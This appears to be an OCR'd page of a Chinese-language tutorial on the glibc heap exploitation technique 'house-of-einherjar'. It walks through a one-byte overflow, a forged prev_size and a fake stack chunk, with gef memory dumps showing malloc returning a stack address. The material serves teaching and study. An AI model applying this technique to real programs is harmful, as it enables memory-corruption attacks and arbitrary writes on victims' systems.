 ```
Modify fake chunk's size to reflect b's new prev_size
Now we free b and this will consolidate with our fake chunk
Our fake chunk size is now 0xffff80024d7d6811 (b.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk: 0x7ffdb337b800
```
house-of-einherjar 是一种利用 malloc 来返回一个附近地址的任意指针。它要求有一个单字节溢出漏洞，覆盖掉 next chunk 的 size 字段并清除 `PREV_IN_USE` 标志，然后还需要覆盖 prev_size 字段为 fake chunk 的大小。当 next chunk 被释放时，它会发现前一个 chunk 被标记为空闲状态，然后尝试合并堆块。只要我们精心构造一个 fake chunk，让合并后的堆块范围到 fake chunk 处，那下一次 malloc 将返回我们想要的地址。比起前面所讲过的 poison-null-byte ，更加强大，但是要求的条件也更多一点，比如一个堆信息泄漏。

首先分配一个假设存在 off_by\_one 溢出的 chunk a，然后在栈上创建我们的 fake chunk，chunk 大小随意，只要是 small chunk 就可以了：
```
gef➤  x/8gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0x4141414141414141	0x0000000000020fe1  <-- top chunk
0x603030:	0x0000000000000000	0x0000000000000000
gef➤  x/8gx &fake_chunk 
0x7fffffffdcb0:	0x0000000000000080	0x0000000000000080  <-- fake chunk
0x7fffffffdcc0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdcd0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdce0:	0x00007fffffffddd0	0xffa7b97358729300
```

接下来创建 chunk b，并利用 chunk a 的溢出将 size 字段覆盖掉，清除了 `PREV_INUSE` 标志，chunk b 就会以为前一个 chunk 是一个 free chunk 了：
```
gef➤  x/8gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0x4141414141414141	0x0000000000000100  <-- chunk b
0x603030:	0x0000000000000000	0x0000000000000000
```
原本 chunk b 的 size 字段应该为 0x101，在这里我们选择 malloc(0xf8) 作为 chunk b 也是出于方便的目的，覆盖后只影响了标志位，没有影响到大小。

接下来根据 fake chunk 在栈上的位置修改 chunk b 的 prev_size 字段。计算方法是用 chunk b 的起始地址减去 fake chunk 的起始地址，同时为了绕过检查，还需要将 fake chunk 的 size 字段与 chunk b 的 prev\_size 字段相匹配：
```
gef➤  x/8gx a-0x10
0x603000:	0x0000000000000000	0x0000000000000021  <-- chunk a
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0xffff800000605370	0x0000000000000100  <-- chunk b <-- prev_size
0x603030:	0x0000000000000000	0x0000000000000000
gef➤  x/8gx &fake_chunk 
0x7fffffffdcb0:	0x0000000000000080	0xffff800000605370  <-- fake chunk <-- size
0x7fffffffdcc0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdcd0:	0x00007fffffffdcb0	0x00007fffffffdcb0
0x7fffffffdce0:	0x00007fffffffddd0	0xadeb3936608e0600
```

释放 chunk b，这时因为 `PREV_INUSE` 为零，unlink 会根据 prev_size 去寻找上一个 free chunk，并将它和当前 chunk 合并。从 arena 里可以看到：
```
gef➤  heap arenas 
Arena (base=0x7ffff7dd1b20, top=0x7fffffffdcb0, last_remainder=0x0, next=0x7ffff7dd1b20, next_free=0x0, system_mem=0x21000)
```
合并的过程在 poison-null-byte 那里也讲过了。
